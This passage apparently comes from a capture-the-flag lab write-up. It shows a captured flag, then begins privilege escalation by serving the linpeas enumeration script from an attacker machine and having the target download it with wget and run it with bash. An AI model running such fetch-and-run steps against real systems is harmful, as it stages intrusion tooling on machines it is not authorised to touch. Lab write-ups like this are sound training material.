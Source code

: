 ````shell

````shell

webadmin@serv:~$ ls

local.txt  user.txt

webadmin@serv:~$ cat local.txt

bcb73b00eb886445df77f9c8c39e2675

````

## Priv Esc

Lets try to escalate our privs, Im gonna stick linpeas on the box

Download linpeas and start a python http server to serve it to the box

````shell

┌──(kali㉿kali)-[~/Documents/potato]

└─$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh >> peas.sh

┌──(kali㉿kali)-[~/Documents/potato]

└─$ python3 -m 'http.server'      

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

````

and download onto the box

````shell

webadmin@serv:~$ wget http://192.168.45.5:8000/peas.sh

--2023-01-30 13:58:36--  http://192.168.45.5:8000/peas.sh

Connecting to 192.168.45.5:8000... connected.

HTTP request sent, awaiting response... 200 OK

Length: 828098 (809K) [text/x-sh]

Saving to: ‘peas.sh’

peas.sh                           100%[==========================================================>] 808.69K  1.29MB/s    in 0.6s   

2023-01-30 13:58:37 (1.29 MB/s) - ‘peas.sh’ saved [828098/828098]

webadmin@serv:~$ bash peas.sh

`````
